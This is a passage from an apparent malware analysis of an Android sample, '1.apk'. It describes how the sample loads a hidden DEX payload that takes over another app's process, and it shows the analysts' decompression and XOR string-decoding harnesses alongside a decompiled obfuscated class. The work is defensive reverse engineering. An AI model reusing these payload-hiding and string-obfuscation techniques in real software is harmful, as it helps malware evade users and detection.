### So what does 1.apk do ?

Having said all of this, the collective functionality of these packages is to function as an interpreter and 'injector' for a malicious application into another. 1.apk itself does not corrupt or exfiltrate any data from the system or application it targets. Instead, it attaches itself to a running application during runtime and serves as a gateway for another application to exploit the runtime permissions and thread access of the main application.

In a way, one can say that 1.apk acts as a '_system hijacker_', enabling an application to run without ever being initiated by the user or system directly, by replacing another application in the process.

This theory it plausible because, looking at the previous code snippet, we tried to find references in the previously analyzed code (packages with obfuscated names) and there weren't any direct references to _com.zjxyxnvvp.nxvxchltf_ packages. However there's one function that returns a package name in the following way, meaning that this may be the package name of the code being injected.

### Taking a step back

Previously we saw some explicit file names that were handled, and now is time to take a closer look at them.

Starting from the top, _ApplicationBuilder_ is called, and it's first actions are to call the _new ContextWrapper(base).assetLoader()_ and _new DexLoader(base).dexFileLoader()_.

We saw that in _ContextWrapper_ a file with name 'rxrjiy.tjp' is passed to be decompressed by the proprietary _Decompressor_, howver this file is not present anywhere in the application. We can't know if it was removed or is just some 'garbage' code leftover from development. Whatever it was, it was being decompressed and added to the assets list.

Following this, a similar action is performed at _DexLoader.dexFileLoader_ to another file in the assets directory, with path _'iugke/yrqmkvf.vqr'_. We recreated an application using the _Decompressor_ class in order to handle this file. Doing so results in a new valid DEX file.

```java
public class Decompressor {

    public static void main(String[] args) throws FileNotFoundException, Exception {
        File in = new File("../deofuscation/1_apk/assets/iugke/yrqmkvf.vqr");
        File out = new File(".", "decompressedMalicious");
        inflater(new FileInputStream(in), new FileOutputStream(out));
    }
    ...
}
```

```bash
$ file decompressedMalicious
decompressedMalicious: Dalvik dex file version 035
```

## Exploring 'yrqmkvf.vqr' now 'decompressedMalicious'

_decompressedMalicious_ contains multiple Java classes and appears to be far more complex than anything we have seen so far.

One thing we can clearly see is that our assumption regarding _com.zjxyxnvvp.nxvxchltf_ is correct, as this is, in fact, a package inside this DEX file.


So we can assume that this is the new package that now takes over the process. Let's take a look inside one of the files; we'll choose _g.java_ since most of them share one important piece of code.

```java
package com.zjxyxnvvp.nxvxchltf;

import android.app.ActivityManager;
import android.content.Context;
/* loaded from: /home/remnux/decompressedMalicious.dex */
public class g {
    private static short[] $ = {7230, 7228, 7211, 7222, 7209, 7222, 7211, 7206};

    private static String $(int i, int i2, int i3) {
        char[] cArr = new char[i2 - i];
        for (int i4 = 0; i4 < i2 - i; i4++) {
            cArr[i4] = (char) ($[i + i4] ^ i3);
        }
        return new String(cArr);
    }

    public static boolean a(Context context) {
        for (ActivityManager.RunningServiceInfo runningServiceInfo : ((ActivityManager) context.getSystemService($(0, 8, 7263))).getRunningServices(Integer.MAX_VALUE)) {
            if (niNOIAdiowanOI.class.getName().equals(runningServiceInfo.service.getClassName())) {
                return true;
            }
        }
        return false;
    }
}
```

The piece of code we are referring to is the _$_ method and the _$_ array of shorts. The fact that this is common among all classes raises red flags. Therefore, we copied the code and ran it to see what it's all about. Although we can infer from the context that it contains strings of some kind.

This is our _StringBuilder_, and we executed it with the short array from _g.java_.

```java
public class StringBuilder {

    public static void main(String[] args) {
        short[] array = {7230, 7228, 7211, 7222, 7209, 7222, 7211, 7206};
        $(0, array.length, 7263, array);
    }

    private static void $(int i, int i2, int i3, short[] arr) {
        char[] cArr = new char[i2 - i];
        for (int i4 = 0; i4 < i2 - i; i4++) {
            cArr[i4] = (char) (arr[i + i4] ^ i3);
        }
        System.out.println(new String(cArr));
    }
}
```

```bash
$ java StringBuilder
activity
```

So, we were correct; it is a string. This kind of obfuscation is quite time-consuming and out of scope for our type of analysis, given the time constraints. However, when running our application with other arrays of shorts from different files, we get strings like: '_android.intent.action.UNINSTALL_PACKAGE_', '_package:_', among others.

The fascinating thing about this approach is that with a single array of shorts, depending on the values passed at _$(0, 8, 7263)_, it can generate different strings.

We cannot know exactly what this application does right now. We can only assume that it's not legitimate given the context of how it initiated its action without the consent or knowledge of the user, and the effort the developers have put into obfuscating its contents.

# Conclusion